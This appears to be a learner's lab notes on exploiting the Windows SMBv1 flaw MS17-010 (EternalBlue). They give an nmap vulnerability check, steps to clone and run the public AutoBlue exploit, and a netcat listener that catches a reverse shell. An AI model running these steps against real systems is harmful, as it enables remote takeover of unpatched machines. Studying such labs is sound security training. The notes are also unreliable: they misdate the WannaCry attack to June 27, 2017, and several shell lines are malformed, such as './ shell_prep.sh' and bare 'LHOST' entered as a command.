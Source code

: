 ```bash
```

<br />



#### Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)    

- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple versions of Windows:
  ○ Windows Vista
  ○ Windows 7
  ○ Windows Server 2008
  ○ Windows 8.1
  ○ Windows Server 2012
  ○ Windows 10
  ○ Windows Server 2016
- Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.
  - AutoBlue-MS17-010: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

<br />

**detect MS17-010 SMB (EternalBlue) with nmap    **

```bash
root@attackdefense:~# nmap 10.0.0.2 -sV -p445 --script=smb-vuln-ms17-010
```

<br />

**exploite MS17-010 SMB (EternalBlue) with [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) **

```bash
root@attackdefense:~# git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
root@attackdefense:~# cd AutoBlue-MS17-010/shellcode
root@attackdefense:~# chmod +x shell_prep.sh
root@attackdefense:~# ./ shell_prep.sh
root@attackdefense:~# LHOST
root@attackdefense:~# 1234 => 	LPORT
root@attackdefense:~# 1 => 		cmd shell
root@attackdefense:~# 1 => 		stageless payload


set netcat listener
root@attackdefense:~# nc -nvlp 1234 
root@attackdefense:~# LPORT

```